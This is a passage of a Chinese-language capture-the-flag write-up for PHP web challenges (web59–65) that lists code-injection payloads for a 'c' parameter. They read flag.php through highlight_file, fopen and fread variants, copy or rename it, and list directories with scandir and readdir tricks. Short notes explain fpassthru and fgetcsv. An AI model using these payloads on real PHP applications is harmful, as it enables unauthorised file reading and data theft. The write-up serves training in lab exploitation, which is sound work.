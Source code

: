 ```php
//paylaod汇总
c=highlight_file("flag.php");
c=var_dump(file("flag.php")); 
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);print_r($line);}
c=$a=fopen("flag.php","r");echo fread($a,"1000");
c=$a=fopen("flag.php","r");echo fpassthru($a);
```

#### fpassthru()

> fpassthru() 函数输出文件指针处的所有剩余数据。
>
> 该函数将给定的文件指针从当前的位置读取到 EOF，并把结果写到输出缓冲区。





### web60

payload:

```php
c=highlight_file('flag.php');
c=$a=fopen('flag.php','r');while(!feof($a)){echo fgetc($a);}
c=$a=fopen('flag.php','r');while(!feof($a)){var_dump(fgetcsv($a));}
```

#### fgetcsv

> fgetcsv() 函数从文件指针中读入一行并解析 CSV 字段。
>
> 与 [fgets()](https://www.w3school.com.cn/php/func_filesystem_fgets.asp) 类似，不同的是 fgetcsv() 解析读入的行并找出 CSV 格式的字段，
>
> 返回一个包含这些字段的**数组**。 



解法二：

```php
c=copy('flag.php','flag.txt');		//使用copy函数复制一份内容内txt，直接访问/flag.txt即可
c=rename('flag.php','flag.txt');   //重命名flag.php
```





### web61-65

查找目录payload：

```php
c=$a=opendir('.');while(($file=readdir($a))!==false){echo $file."<br/>";}
c=var_export(scandir('.'));
c=var_export(scandir(dirname(__FILE__)));
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```
